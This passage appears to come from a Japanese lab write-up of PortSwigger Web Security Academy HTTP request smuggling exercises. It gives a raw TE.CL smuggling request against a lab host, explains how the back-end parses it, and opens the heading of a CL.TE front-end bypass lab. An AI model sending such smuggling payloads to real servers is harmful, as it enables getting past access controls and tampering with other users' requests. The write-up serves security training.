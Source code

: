 ```text
POST / HTTP/1.1
Host: 0a0c00bc03d443dc81ef8e7e0072006e.web-security-academy.net
Cookie: session=zG2nJ68LpFa34qkPc36ifKehjV1Q9N2fContent-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```

![](./images/README_231014_5517.png)

`TE.CL`なので、全てのリクエストがBack-endに転送され、Back-endは`Content-Length`を見るためContent-Length: 4で、`5e`までを１つのリクエストとして認識します。

そのため`POST /404 HTTP/1.1 ...`が浮き後続のリクエストの先頭につくため、`404`にたいしてのリクエストが出来上がります。

## Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

### Goal

`/admin`に管理パネルがあるが、Front-endサーバによってアクセスを禁止される。
